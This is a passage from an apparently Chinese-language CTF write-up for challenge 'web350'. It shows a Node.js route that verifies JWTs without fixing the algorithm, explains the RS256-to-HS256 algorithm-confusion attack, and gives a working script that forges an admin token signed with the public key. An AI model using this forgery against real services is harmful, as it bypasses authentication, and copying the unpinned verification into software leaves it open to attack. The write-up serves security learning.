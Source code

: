 
### web350

```
router.get('/', function(req, res, next) {
  res.type('html');
  var privateKey = fs.readFileSync(process.cwd()+'//routes/private.key');
  var token = jwt.sign({ user: 'user' }, privateKey, { algorithm: 'RS256' });
 
  res.cookie('auth',token);
  res.end('where is flag?');
  
});
 
router.post('/',function(req,res,next){
	var flag="flag_here";
	res.type('html');
	var auth = req.cookies.auth;
	var cert = fs.readFileSync(process.cwd()+'//routes/public.key');  // get public key
	jwt.verify(auth, cert,function(err, decoded) {
	  if(decoded.user==='admin'){
	  	res.end(flag);
	  }else{
	  	res.end('you are not admin'+err);
	  }
	});
});

```

哦，看来又有公钥和私钥，**然而这次只拿到了公钥。**

这里我们可以利用：将RS256算法改为HS256（非对称密码算法=>对称密码算法）

绕过服务端签名检测，从而构造JWT

解释：   

        HS256算法使用密钥为所有消息进行签名和验证。
    
        而RS256算法则使用私钥对消息进行签名并使用公钥进行身份验证。

如果将算法从RS256改为HS256，则后端代码将使用公钥作为密钥，然后使用HS256算法验证签名。

        由于攻击者有时可以获取公钥，因此，攻击者可以将头部中的算法修改为HS256，然后使用RSA公钥对数据进行签名。
    
        这样的话，后端代码使用RSA公钥+HS256算法进行签名验证

把原来的脚本修改一下

```
const jwt = require('jsonwebtoken');
var fs = require('fs');
var privateKey = fs.readFileSync('public.key');
var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'HS256' });
console.log(token)
```
